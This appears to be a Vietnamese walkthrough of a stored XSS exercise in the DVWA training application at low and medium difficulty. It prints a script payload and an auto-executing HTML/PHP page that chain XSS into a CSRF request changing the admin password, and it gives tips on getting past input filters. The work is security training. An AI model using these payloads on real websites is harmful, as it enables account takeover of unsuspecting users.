# XSS Stored

Mục tiêu là có thể chèn được JavaScript độc hại vào trang web

**Mức độ: Thấp.**



Giao diện ban đầu của mức này có dạng như trên. Trước hết thì clear guestbook cũ đi. Sau đó nhập vào tên và message basic.

Sau khi nhập thì hiện ra một message đơn giản có dạng như bên dưới.



Thử chèn các câu lệnh js vào các trường ở trên. Nhận thấy trường name giới hạn kí tự có thể nhập vào, nên sẽ nhập câu lệnh vào message. Khi nhập một câu lệnh vào trong đó thì sẽ thấy câu lệnh đó được thực thi vào hiện ra một notion box





Sau khi nhập vào như này thì script đã được lưu vào trong db luôn và khi người dùng click vào sign guestbook thì notion box sẽ trả về thông tin -> lỗ hổng đã xuất hiện.

Ban đầu password của admin là admin như hình bên dưới



Ta sẽ chèn 1 script như thế này:

```JavaScript
<script>
    window.location.href = "http://localhost/DVWA/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#";
</script>
```

hoặc ta có thể kết hợp với file upload -> Ta có 1 file php tự động thực thi như thế này.

```PHP
<!DOCTYPE html>
<html lang="vi">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Auto Redirect Example</title>
    <script>
        function autoExecute() {
            // Tự động chuyển hướng đến URL
            window.location.href = "http://localhost/DVWA/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#";
        }
    </script>
</head>
<body onload="autoExecute()">
</body>
</html>
```



Nhìn gói tin ta bắt được từ ứng dụng có thể thấy nếu chèn vào 1 script thì các dấu đã được mã hóa -> thử mã hóa script của t chèn vào thì thấy thực hiện được thay đổi mật khẩu






**Mức độ: Trung bình.**

Làm như mức độ trên thì thầy ko có output -> code đã thay đổi



Ta thử thay đổi 1 số ký tự như Script, sCript, ... -> vẫn không ra output
-> thử nhập vào trường name -> bắt gói tin bằng burp suite sau đó sử thử trường name 



=> Thấy xuất hiện notion box -> lỗ hổng xuất hiện




